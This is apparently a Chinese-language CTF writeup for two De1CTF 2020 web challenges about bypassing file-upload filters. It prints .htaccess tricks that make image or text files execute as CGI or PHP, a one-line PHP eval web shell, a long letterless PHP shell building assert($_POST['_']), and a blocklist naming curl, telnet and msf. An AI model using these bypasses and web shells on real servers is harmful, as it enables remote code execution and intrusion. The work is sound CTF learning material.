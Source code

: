 ```yaml
---
layout: post
title: De1CTF 2020 Web Writeup
data: 2020-05-02
categories: Writeups
tags: 
 - CTF
 - Writeup
description: 
excerpt_separator: <!-- more -->
---
```


时隔一年，又见De1CTF，不得不说，我还是曾经那个弟弟。

<!-- more -->

# check in

## 题目描述

一道文件上传，文件名有黑名单，拦截了"ph"，然后文件内容也有正则匹配拦截：

```
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet
```

## 解题思路

文件名有拦截，还是黑名单，自然地想到了上传htaccess，不过htaccess中的"php"会被检测，隐约感觉PHP没什么希望了。

想到了上传CGI文件，还是比较顺利的，htaccess文件：

```htaccess
Options +ExecCGI
AddHandler cgi-script .png
```

木马文件：

```bash
#!/bin/bash
echo "Content-Type: text/plain"
echo
cat /flag
```

得到flag。

后来发现这题还有一种解法，首先htaccess中的"php"可以换行绕过：

```htaccess
Addtype application/x-httpd-p\
hp .png
```

木马文件：

```php
<?=eval($_POST["cmd"]);
```

甚至可以上传这样的htaccess文件：

```htaccess
AddHandler p\
hp5-script .txt
p\
hp_value au\
to_append_file /flag
```

然后随便上传个TXT文件就会加载flag。

## 备注

1. 在本地测试CGI文件的时候，总是因为没有执行权限而返回500错误，不知道服务器是怎么给上传的文件加权限的。

2. "\<?= ?>"是"echo()"的快捷用法：

    ```php
    <?="foo"?> == echo("foo")
    ```

3. 如果Apache运行mod_php，就可以利用"php_value"关键字更改php.ini的值。

----

# Hard_Pentest_1

## 题目描述

一个文件上传，直接给了源码：

```php
<?php
//Clear the uploads directory every hour
highlight_file(__FILE__);
$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);

if($_POST["submit"]){
    if (($_FILES["file"]["size"] < 2048) && Check()){
        if ($_FILES["file"]["error"] > 0){
            die($_FILES["file"]["error"]);
        }
        else{
            $filename=$_FILES["file"]["name"];
            move_uploaded_file($_FILES["file"]["tmp_name"], $filename);
            echo "save in:" . $sandbox."/" . $filename;
        }
    }
    else{
        echo "Not Allow!";
    }
}

function Check(){
    $BlackExts = array("php");
    $ext = explode(".", $_FILES["file"]["name"]);
    $exts = trim(end($ext));
    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);

    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  && 
        !in_array($exts, $BlackExts) && 
        !preg_match('/\.\./',$_FILES["file"]["name"])) {
          return true;
    }
    return false;
}
?>
```

## 解题思路

文件名的拦截容易绕，然后还有内容的检测，就是构造一个无字母和数字的Shell：

```php
<?=$_=[]?><?=$_="$_"?><?=$_=$_['!'=='@']?>

<?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>

<?=$___=$_?><?=$___++?><?=$___++?><?=$___++?><?=$___++?>

<?=$____=$_?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?>

<?=$_____=$_?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?>

<?=$__=$_.$__.$__.$___.$____.$_____?>

<?=$___=$_?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?>

<?=$____=$_?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?>

<?=$_____=$_?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?>

<?=$______=$_?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?>

<?=$_='_'.$___.$____.$_____.$______?>
<?=$_=$$_?>

<?=$__($_['_'])?>
```

等价于：

```php
<?php
$foo = "ASSERT";
$bar = "_POST";
$bar = $$bar;
$foo($bar['_']); //assert($_POST['_'])
?>
```

执行之后发现Shell命令无法执行，用PHP内置函数看一下目录，发现是Windows。

然后就卡住了。

## 备注

1. eval()是PHP语法构造的一部分，不能通过可变函数调用。
2. assert()在PHP7中默认无法再执行代码。